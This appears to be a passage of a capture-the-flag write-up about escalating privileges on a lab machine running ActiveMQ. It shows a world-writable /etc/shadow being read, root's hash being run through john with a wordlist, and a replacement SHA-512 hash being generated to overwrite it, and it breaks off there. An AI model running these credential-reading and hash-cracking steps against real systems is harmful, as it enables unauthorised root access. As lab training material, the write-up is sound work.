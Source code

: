 Let's enumerate the machine!

**Check readable/writable `/etc/shadow` file:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ ls -lah /etc/shadow
-rwxrwxrwx 1 root shadow 768 Dec 25  2020 /etc/shadow
```

In here, we can see that **the `/etc/shadow` file is world-readable/writable/executable!**

**Let's read that!**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ cat /etc/shadow
root:$6$p4QqejfFHI9${Redacted}.:18621:0:99999:7:::
daemon:*:18605:0:99999:7:::
bin:*:18605:0:99999:7:::
sys:*:18605:0:99999:7:::
sync:*:18605:0:99999:7:::
games:*:18605:0:99999:7:::
man:*:18605:0:99999:7:::
lp:*:18605:0:99999:7:::
mail:*:18605:0:99999:7:::
news:*:18605:0:99999:7:::
uucp:*:18605:0:99999:7:::
proxy:*:18605:0:99999:7:::
www-data:*:18605:0:99999:7:::
backup:*:18605:0:99999:7:::
list:*:18605:0:99999:7:::
irc:*:18605:0:99999:7:::
gnats:*:18605:0:99999:7:::
nobody:*:18605:0:99999:7:::
_apt:*:18605:0:99999:7:::
messagebus:*:18621:0:99999:7:::
activemq:$6$Ra/XClrOq2ltc.E.${Redacted}/:18621:0:99999:7:::
```

**Now, we can try to crack root's password hash via `john`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# echo 'root:$6$p4QqejfFHI9${Redacted}.:18621:0:99999:7:::' > root.txt
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt root.txt 
[...]
```

But no luck.

**Luckly, the `/etc/shadow` is world-writable. That being said, we can generate our own SHA-512 password hash:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# mkpasswd -m sha-512 password
$6$9Z6z6EmYpHQYlLks$HwvqTojwcMUQwJqICq04d5AM3nype6HgX6gO6Q/SKXbECP89OpgsvsfQKHMibUD6vbZ90ME3fOTFLQevzbJ5X0
```
